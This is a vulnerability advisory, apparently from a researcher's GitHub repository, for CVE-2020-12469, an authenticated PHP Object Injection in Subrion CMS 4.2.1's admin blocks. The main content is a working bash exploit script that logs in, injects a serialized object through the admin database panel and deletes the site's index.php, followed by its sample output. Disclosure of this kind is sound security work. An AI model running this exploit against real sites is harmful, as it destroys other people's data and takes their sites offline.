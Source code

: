 # Subpages - PHP Object Injection

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is the file `/admin/blocks.php`. The manipulation of the of the **subpages** value within a block leads to a PHP Object Injection vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able inject arbitrary PHP objects within the application context, and use them to achive arbitrary file deletion.

The weakness was presented 04/14/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12469. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"
id=10
debug=0

# Grep Session Cookie Name
sess_cookie=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*\=\w*")
cookies="Cookie: loader=loaded; $sess_cookie"
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
echo "[*] Logging in"
# Fix the Session Cookie Value and login
res=$(curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "$cookies" -i | grep "Set-Cookie")

echo "[*] Adding evil PHP Object"
# Get CSRF Token
csrf_token=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/database/" | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)

# Generating Payload
payload=$(php serializer.php -c s -t a -u)

if [ $debug -gt 0 ]; then
    echo $payload
fi

# Add the crafted parameter
res=$(curl -i -s -k -X "POST" -x $proxy -H "$cookies" --data-binary "__st=$csrf_token&query=UPDATE++%60subr_blocks%60+SET+%60subpages%60++%3D+%27$payload;%27+WHERE+%60id%60+%3D+$id%3B+&show_query=1&exec_query=Go" "$target/panel/database/")

if [[ $(echo $res | grep "Query OK:" | grep "rows affected") == "" ]]; then
    echo "Could not add the evil PHP Object"
    exit 1
fi
echo "[*] Triggering File deletion"
# Get block ID to trigger
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/edit/$id/" &>/dev/null)

# Confirming deletion, checking 404 
res=$(curl -i -s -k -H "$cookies" -x $proxy "$target/panel/blocks/edit/$id/" | head -n 1 | grep -oP "\d{3}")
if [[ "$res" == "404" ]]; then
    echo "[+] Done! Site damaged!"
else
    echo "[-] Error, site patched!"
fi
```

Using the above script should give the following output, proving the vulnerability.

```
$ ./exploit.sh
[*] Logging in
[*] Adding evil PHP Object
[*] Triggering File deletion
[+] Done! Site damaged!
```

When the script finishes, the site should not be reachable anymore, as the **index.php** file has been deleted. In case you need further confirmation, check for the presence of **index.php** within Subrion HOME directory.

![File deletion - Test](https://github.com/belong2yourself/vulnerabilities/raw/master/Subrion%20CMS/Insecure%20Deserialization/Subpages%20-%20Authenticated%20PHP%20Object%20Injection/subpages-test.gif)

## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://cwe.mitre.org/data/definitions/1236.html](https://cwe.mitre.org/data/definitions/1236.html)
*   [https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)